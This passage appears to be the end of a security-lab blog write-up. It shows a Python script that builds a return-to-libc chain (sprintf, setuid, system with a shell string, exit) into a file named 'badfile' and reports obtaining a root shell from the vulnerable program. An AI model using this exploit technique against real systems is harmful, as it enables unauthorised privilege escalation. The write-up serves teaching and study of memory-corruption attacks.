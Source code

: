 ```python
###########################################################################

# build the stack dymanically
content += b'BBBB'
# sprinf()
for i in range(4):
    content += tobytes(sprintf_addr)
    content += tobytes(pop2ret)
    content += tobytes(sprintf_arg1)
    content += tobytes(sprintf_arg2)
    sprintf_arg1 += 1
# setuid()
content += tobytes(setuid_addr)
content += tobytes(popret)
content += tobytes(0xFFFFFFFF)
# system()
content += tobytes(system_addr)
content += tobytes(popret)
content += tobytes(sh_addr)
# exit()
content += tobytes(exit_addr)


# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```

<details><summary>Code Explanation</summary></details>

When the vulnerable program is run, we see that the exploit is successful and we obtain a root shell.

![task-5-c](https://github.com/iukadike/blog/assets/58455326/0a02219d-47ac-4513-92a7-efb4190f4968)



<br>

Thanks for reading.

<details><summary>References</summary></details>
